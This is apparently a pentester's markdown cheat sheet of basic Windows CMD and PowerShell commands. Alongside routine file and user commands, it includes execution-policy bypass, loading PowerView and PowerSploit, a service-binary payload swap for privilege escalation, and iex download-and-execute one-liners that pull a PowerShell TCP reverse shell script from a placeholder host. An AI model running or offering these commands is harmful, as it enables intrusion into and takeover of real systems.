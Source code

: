 ```yaml
---
description: The basic of Command Prompt and PowerShell
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Basic PowerShell

Enter powershell with Execution Policy Bypass

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
```
{% endcode %}

Or, if you already inside powershell session, you can set Execution Policy with this command:

{% code overflow="wrap" %}
```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser
```
{% endcode %}

Load powershell script function into memory with dot sourcing:

```powershell
. .\PowerView.ps1
```

Import module to powershell:

{% code overflow="wrap" %}
```powershell
import-module .\Powerspolit.psd1
```
{% endcode %}

### Check All Available Powershell Command

```powershell
Get-Command -Name "*Invoke*"
Get-Command
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi61t18ptuUTq7RFezUuspvOLZt26gJsqhnA38XRxnwdt02TaEFATWJ6ync6A5wFyxIFcxGmO398G_e8-34zU4uxRBoMAfTCI4BYs8jGqu8EuJ5kf46MBJodCkK2jhkppnjSTRg3_a-bkKCAOsgiMfnA60mltPRIPan1H30PrwhKRNCDLOhFSW0Ax-3M14/s1010/get%20all%20available%20command.png" alt=""><figcaption><p>Get-Command</p></figcaption></figure>

### Copy  & Move

How to copy file:

{% code overflow="wrap" %}
```powershell
copy source.exe destination.exe
```
{% endcode %}

How to copy directory:

```powershell
xcopy C:\source_dir D:\dest_dir /E /I /Y
```

Explanation:

* `/E` – Copies all subdirectories, including empty ones.
* `/I` – If the destination does not exist and copying more than one file, this option assumes that the destination must be a directory.
* `/Y` – Suppresses prompting to confirm you want to overwrite an existing destination file.

How to Move File or Directory

{% code overflow="wrap" %}
```powershell
move payload.exe C:\temp\service.exe
```
{% endcode %}

### Rename&#x20;

Sometimes, after found service run as SYSTEM user and writable by low user, you can drop payload to the directory and rename the payload to match the service name.

```powershell
ren Payload.exe Service.exe
```

### Download

certutil.exe

{% code overflow="wrap" %}
```powershell
certutil -urlcache -split -f https://example.com/example.txt example.txt
```
{% endcode %}

powershell.exe: Invoke-WebRequest

{% code overflow="wrap" %}
```powershell
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -OutFile "PowerView.ps1"
```
{% endcode %}

### Download and Execute

powershell.exe: Invoke-Expression

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))
```
{% endcode %}

Or, from cmd.exe to powershell.exe

{% code overflow="wrap" %}
```powershell
powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invo
ke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

Or, use start /B to run the command in background.

{% code overflow="wrap" %}
```powershell
start /B powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

### Restart and Shutdown

Shutdown now:

```powershell
shutdown /s /t 0 /f
```

Restart now:

{% code overflow="wrap" %}
```powershell
shutdown /r /t 0 /f
```
{% endcode %}

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Privileges, User, and Groups

User stuff:

```
whoami /all
whoami /priv
whoami /group
net user
net user asuka
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjyAVj1INMgIeK5kh7G_9aPZ8U60HuQWWzeXPLIAI75N0amaCt9yVQGeLxkGMaiZ6xqL7eSy1g5ctN9w-Uk-oZqg65VCrqaK5NnEFbbNdlq-y880XX5zP4Vik8P8YxsI7Lx3vVgRe4skx0wZhr9_z8HSFa0ES55QW7-kxsvPdO23Vjw5NaLRm-KGSVzUXE/s1021/whoami%20all.png" alt=""><figcaption><p>whoami /all</p></figcaption></figure>

Check Local Group using Command Prompt:

```
net localgroup
net localgroup Administrators
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-LocalGroupMember -Group "Administrators" |  Select-Object *
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSwKtfQSeG7PGNF6Oz3A6iAK9G1lYqf6INpoLtXifRQHdHqNbR6yN3WfZMGEpZOU1wLxVpkZUB7iPEHLyHN0jENDO_QZIx-yO4tne-Buag5dDr8vINN3oxc3rlNM4xXznS5zNAushx6aqkR6Kd-F1La5jsSL0u7ClbtOsz2TcrczzRK91x_vLjZqKL4s4/s1050/powershell%20command.png" alt=""><figcaption><p>Get-LocalGroupMember</p></figcaption></figure>
